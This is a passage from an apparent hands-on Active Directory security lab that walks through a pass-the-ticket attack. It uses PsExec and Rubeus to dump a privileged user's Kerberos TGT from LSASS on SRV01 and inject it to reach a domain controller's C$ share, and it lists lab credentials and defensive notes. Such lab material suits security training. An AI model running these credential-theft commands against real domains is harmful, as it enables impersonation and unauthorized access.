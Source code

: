 
Kerberos

rubeus.exe dump /user:katrina.mendoza.adm /service:krbtgt

rubeus.exe ptt /ticket:


Extract the TGT from the LSASS memory 
	▪ This requires the seDebugPrivilege 
	▪ Requires that the targeted identity has cached its credentials 
Inject the TGT into your current session 
	▪ Either locally, or later on other systems by exporting it to a file 
	▪ The “new” ticket is used to request new service tickets 
Does not trigger any failed authentication attempts

This is possible because the hash is in the memory Needed for Single Sign-On


Attack’s pre-requisites Protection - A victim is connected to the system, or a service is running under a user account - seDebugPrivilege, or LSASS memory dump 
Protection
- Healthy administration practices (do not connect to untrusted systems with privileged accounts, use RDP restricted mode or remote credential guard)

(ING) LAB 4 - Lateral movement

4 Hours Remaining

Instructions Resources Help  100%

## Exercise 4 - Perform a pass-the-ticket attack

In this exercise **Miss Red** will try to steal the TGT of a privileged account to impersonate his or her on other system without knowing her password.

### Task 1 - Prepare the environment

You will steal Katrina's ticket on **SRV01**. We first need make sure she is connected to **SRV01**. So let's do that.

1. Log on to **[DC02](https://labclient.labondemand.com/Instructions/477566ac-67c8-4de5-9b37-b38f90b2bb87?rc=10#)**. Use the following credentials:
    
    |||
    |---|---|
    |Username|`CONTOSO\katrina.mendoza.adm`|
    |Password|`NeverTrustAny1!`|
    
    **⚠️ You need to connect with Katrina's account, not Vickie's.**
    
2. Right click on the Start menu ![2022menu.png](https://labondemand.blob.core.windows.net/content/lab127288/2022menu.png) and click on **Run**.
    
3. In the **Run** window type `mstsc.exe` and click **OK**.
    
4. In the **Remote Desktop Connection** window, in the **Computer** field type `SRV01` and click **Connect**. You should be prompted to enter a password, use this password `NeverTrustAny1!` and click **OK**.
    

**⚠️ Leave the session open!**

### Task 2 - Export tickets out of SRV01

Let's check if there is something yummy to steal (well, we know there is because we made sure Katrina's admin account is connected to SRV01).

1. We are still on **[CLI01](https://labclient.labondemand.com/Instructions/477566ac-67c8-4de5-9b37-b38f90b2bb87?rc=10#)** with the following credentials:
    
    |||
    |---|---|
    |Username|`CONTOSO\red`|
    |Password|`NeverTrustAny1!`|
    
2. You should still have a **Connie CMD** red prompt open. If that's not the case, we are going to get back one by right clicking on the Start menu ![11menu.png](https://labondemand.blob.core.windows.net/content/lab127288/11menu.png) and then clicking on **Windows Terminal (Admin)**. In the **Windows Terminal** window, run the following: `runas /user:connie.flores@contoso.com cmd.exe` and use the following password `NeverTrustAny1!`. Then run `color 4F & title Connie CMD` and `cd \Tools\PStools`.
    
3. In **Connie CMD** red prompt window, run `psexec.exe \\SRV01 cmd.exe -accepteula`
    
    ⌚ The might take a little while (about a minute).
    
4. If this is successful, the title of the window will be **\\SRV01: cmd.exe**. Run the following command `cd \Tools\Ghostpack` then run `rubeus.exe dump /user:katrina.mendoza.adm /service:krbtgt`
    
5. Copy the base64 output into your clipboard. ![bq7frbd6.png](https://labondemand.blob.core.windows.net/content/lab127288/bq7frbd6.png)
    
6. Right click on the Start menu ![11menu.png](https://labondemand.blob.core.windows.net/content/lab127288/11menu.png) and click **Run**. In the **Run** window, type `notepad.exe` and click **OK**.
    
7. In the **Notepad** window, paste the base64 value and save the file. Click **File** then **Save as** and in the **File name** field type `C:\Users\Public\tgt.txt` and click **Save**.
    
8. Exit the PSExec session by also running `exit`. It will look like this: ![EXIT1.png](https://labondemand.blob.core.windows.net/content/lab127288/EXIT1.png) Then after few seconds you get the prompt back (if it seems to take to long, hit **[Ctrl] + C** to speed up the termination).
    

### Task 3 - Inject stolen tickets into memory

1. Let's put the base64 ticket into your clipboard. In the **Windows Terminal** window, run `(Get-Content C:\Users\Public\tgt.txt) -join "" -replace " " | clip`.
    
    > **clip** is a command line tool that take the output of a command and save it to the clipboard.
    
2. In the **Windows Terminal** window, run `klist`. It should return a bunch of Kerberos ticket. The one for your current session. Note that all of them are for the **Client:** **red @ CONTOSO.COM**. Those tickets were obtains thanks to our TGT. You can see the TGT by running `klist tgt`. It should look like this: ![TGT1.png](https://labondemand.blob.core.windows.net/content/lab127288/TGT1.png)
    
3. In the same console, try to browse the C$ share of a domain controller, first run `cmd` and then run `dir \\DC01\C$`. You should get this error message: ![PTT0.png](https://labondemand.blob.core.windows.net/content/lab127288/PTT0.png)
    
4. Change the active directory by running `cd \Tools\Ghostpack` and then type but do not execute `rubeus.exe ptt /ticket:` then before hitting Enter, make sure you place your cursor on the terminal and do a right click anywhere in the console. This should paste the content of your clipboard in the console. Then hit **Enter**. It should look like this: ![v2nlpjjb.png](https://labondemand.blob.core.windows.net/content/lab127288/v2nlpjjb.png)
    
5. Still in the **Windows Terminal** window, run `klist`. All your tickets are gone and being replaced by the one you've stolen from SRV01.
    
6. In the same console, try again to browse the C$ share of a domain controller by running `dir \\DC01\C$`.
    

1. List all tickets by running `klist`. You now have three tickets: ![qshxoyi5.png](https://labondemand.blob.core.windows.net/content/lab127288/qshxoyi5.png)
    
    📝 What is the Session Key Type of the cifs/DC01 ticket?
    
    ❓ Does the Protected Users group protect Kerberos material like it does for NTLM? **Click here to see the answer**.
    
    - [](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)
    

0% Tasks Complete

PreviousNext: Exercise 5 - Hijack...

Live Chat


